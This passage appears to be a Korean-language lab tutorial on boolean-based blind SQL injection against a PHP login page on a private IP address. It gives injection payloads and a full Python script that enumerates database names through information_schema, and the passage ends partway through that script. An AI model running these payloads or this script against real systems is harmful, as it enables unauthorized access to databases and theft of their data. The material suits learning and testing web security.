 결과는 다음과 같다.

	DATABASE : test

DBMS의 모든 데이터베이스 이름을 확인해보자.

먼저 COUNT를 이용하여 데이터베이스의 수를 확인하자.

SELECT의 이중쿼리의 경우 출력결과가 1개로 나와야 하며 괄호를 이용하여 감싸준다.

```py
for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(SCHEMA_NAME) FROM information_schema.SCHEMATA)={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'Number of databases : {RESULT_LENGTH}')
```

다음으로 LIMIT을 이용하여 하나 씩 데이터베이스 이름의 문자열 길이를 확인하자.

```py
QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1))={j}#')
```

다시 SUBSTR로 문자열을 하나씩 확인한다.

```py
QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1),{j+1},1))={ord(s)}#')
```

다음의 Full Code로 모든 데이터베이스의 이름을 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(SCHEMA_NAME) FROM information_schema.SCHEMATA)={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'Number of databases : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    DATABASE_NAME_LENGTH    = 0
    DATABASE_NAME           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1))={j}#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': DATABASE_NAME_LENGTH = j
    for j in range(DATABASE_NAME_LENGTH):
        for s in string.printable.strip():
            QUERY   = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT {i},1),{j+1},1))={ord(s)}#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            REQUEST = requests.get(url=URL)
```